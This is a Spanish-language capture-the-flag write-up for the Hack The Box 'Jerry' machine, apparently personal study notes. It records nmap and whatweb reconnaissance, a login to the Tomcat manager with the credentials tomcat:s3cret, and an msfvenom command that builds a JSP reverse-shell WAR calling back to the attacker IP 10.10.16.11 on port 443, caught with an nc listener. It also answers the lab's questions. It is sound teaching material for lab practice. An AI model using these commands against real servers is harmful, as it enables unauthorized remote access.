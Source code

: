 1)¿Qué puerto TCP está abierto en el host remoto?
	8080

2)¿Qué servidor web se está ejecutando en el host remoto? Buscando dos palabras.
	apache tomcat

3)¿Qué ruta relativa en el servidor web lleva al Web Application Manager?
	/manager/html

4)¿Cuál es la combinación válida de nombre de usuario y contraseña para autenticarse en el gestor de aplicaciones web Tomcat? Dar la respuesta en el formato de nombre de usuario:contraseña
	tomcat:s3cret

5)¿Qué tipo de archivo puede cargarse y desplegarse en el servidor utilizando el Administrador de Aplicaciones Web Tomcat?
	war


-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.95
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.10.95 -oG allPorts
nmap -sCV -p8080 10.10.10.95 -oN target
```

![[Jerry1.png]]
![[Jerry2.png]]
*TTL:* Maquina windows
*Puertos:*
	``8080 `` HTTP 

--------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.95:8080/
```
![[Jerry3.png]]

![[Jerry7.png]]
Nos indica que esta el directorio /manager/html

---------
# [[Arbitrary file upload]] en tomcat

Entramos a la pagina principal y vemos que es un tomcat
![[Jerry5.png]]
Ponemos un usuario y contraseña para probar
![[Jerry6.png]]
Y en la pagina de error, nos muestra un usuario y contraseña que al probarlos, vemos que podemos ingresar al panel de tomcat
![[Jerry4.png]]

![[Jerry11.png]]
Vemos que podemos subir archivos .war. Asi que vamos a mandarnos una [[Reverse shell]]

-------
# [[Reverse shell]]

Con [[msfvenom]] creamos el archivo .war

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.11 LPORT=443 -f war -o shell.war
```

![[Jerry8.png]]
Creamos el archivo shell.war que lo vamos a subir a la pagina 

Ahora mientras estamos en escucha con [[rlwrap nc -lvnp 443]] vamos a ingresar a la pagina http://10.10.10.95:8080/shell/ para ejecutar el archivo shell.war que subimos anteriormente
Y listo ya estamos adentro de la maquina y podemos catear las flags
![[Jerry9.png]]

![[Jerry10.png]]

---------
# Notas

Tomcat es un servidor de aplicaciones desarrollado por Apache que permite ejecutar aplicaciones web escritas en Java. Funciona como contenedor de servlets y JSP, siguiendo la especificación Java EE. Escucha comúnmente en el puerto 8080. Es usado tanto en entornos de desarrollo como en producción.

----
# Creditos

[Writeup de territoriohacker](https://territoriohacker.com/htb-jerry/)